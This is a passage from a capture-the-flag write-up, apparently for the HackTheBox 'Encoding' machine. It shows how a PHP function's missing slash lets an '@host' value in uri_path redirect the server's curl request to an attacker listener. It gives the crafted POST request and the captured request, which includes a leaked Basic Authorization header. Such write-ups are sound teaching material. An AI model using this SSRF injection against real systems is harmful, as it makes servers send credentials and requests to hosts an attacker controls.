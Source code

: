 
So a URL can look like:

    
    
    [scheme]://[authority][path-abempty]
    

For this case, `scheme` is `http`. `authority` is the `host`, but it can have
an optional `:[port]` after it, and an optional `[userinfo]@` before it.
`path-abempty` is either empty or starts with `/`.

#### SSRF

In the `make_api_call` function, it takes user input to build a URL that is
passed to `curl`:

    
    
    $url = 'http://api.haxtables.htb' . $uri_path . '/index.php';
    

It’s clear that this can be any path on `api.haxtables.htb` that ends with
`/index.php`. But because there’s no `/` between `.htb` and the user input, I
can actually use this to reach other servers as well by adding an `@` symbol.

If I send `@10.10.14.6` as the `$uri_path`, then `$url` will be:

    
    
    http://api.hacktables.htb@10.10.14.6/index.php
    

I’ll send the POST request to `haxtables.htb/handler.php` into Burp Repeater
and update the `uri_path`:

    
    
    POST /handler.php HTTP/1.1
    Host: haxtables.htb
    User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/111.0
    Accept: */*
    Accept-Language: en-US,en;q=0.5
    Accept-Encoding: gzip, deflate
    Content-Type: application/json;charset=UTF-8
    Content-Length: 69
    Origin: http://10.10.11.198
    Connection: close
    Referer: http://10.10.11.198/index.php?page=string
    
    {"action":"md5","data":"0xdf was here","uri_path":"@10.10.14.6"}
    

I’ll start `nc` listening on 80 and on sending the above request, there’s a
request at `nc` from Encoding:

    
    
    POST /index.php HTTP/1.1
    Host: 10.10.14.6
    Authorization: Basic YXBpLmhheHRhYmxlcy5odGI6
    Accept: */*
    Content-Type:application/json
    Content-Length: 64
    